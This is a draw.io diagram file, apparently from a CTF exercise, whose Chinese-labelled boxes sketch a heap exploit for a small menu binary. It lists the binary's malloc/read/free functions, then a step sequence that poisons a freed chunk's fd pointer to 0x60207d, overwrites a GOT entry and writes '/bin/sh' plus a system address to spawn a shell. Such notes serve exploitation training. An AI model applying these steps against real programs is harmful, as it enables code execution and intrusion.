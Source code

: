 <mxfile version="24.2.1" type="github">
  <diagram name="第 1 页" id="erWBEHMT_IxAKbOyUFVJ">
    <mxGraphModel dx="1949" dy="537" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-1" value="一共有5个方法：&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;func1 malloc(0x60)&lt;/div&gt;&lt;div&gt;func2 read&amp;nbsp; 0x40&lt;/div&gt;&lt;div&gt;func3 print&lt;/div&gt;&lt;div&gt;func4 free&lt;/div&gt;&lt;div&gt;func5 malloc 0x60&lt;/div&gt;&lt;div&gt;read 0x60&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="30" y="10" width="240" height="160" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-2" value="&lt;div&gt;攻击思路：&lt;/div&gt;add()&lt;div&gt;free()&lt;/div&gt;&lt;div&gt;edit(p64(0x60207d))&amp;nbsp;&lt;br&gt;&lt;/div&gt;&lt;div&gt;add()&lt;/div&gt;&lt;div&gt;func5&amp;nbsp;b&#39;aaa&#39;+p64(0)*3+p64(0x602018-8)+p64(0)*4 &amp;nbsp;&lt;/div&gt;&lt;div&gt;show&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;edit(b&#39;/bin/sh\x00&#39;+p64(system_addr))&lt;br&gt;&lt;/div&gt;&lt;div&gt;free&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="310" y="170" width="280" height="170" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;add()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="827" y="160" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-5" value=" bss p=0x6020A8" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-140" y="40" width="100" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-6">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="970" y="245" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-6" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="860" y="230" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-9" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="170" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-10" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="200" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-11" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="230" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-12" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="260" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-13" target="IB8mfc5W1hkk9r3mwRGL-14">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-13" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1380" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-14" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-19">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1375" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-19" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1265" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-20" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-21" value="fd" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-22" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="180" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-23" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;free()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1190" y="80" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-24" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;edit(p64(0x60207d))&amp;nbsp;&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1580" y="120" width="140" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-26" target="IB8mfc5W1hkk9r3mwRGL-27">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-26" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1825" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-27" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-29">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1820" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-29" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1710" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-30" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-31">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1970" y="169.957" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-31" value="0x60207d" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-32" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="180" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-36" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1970" y="140" width="110" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
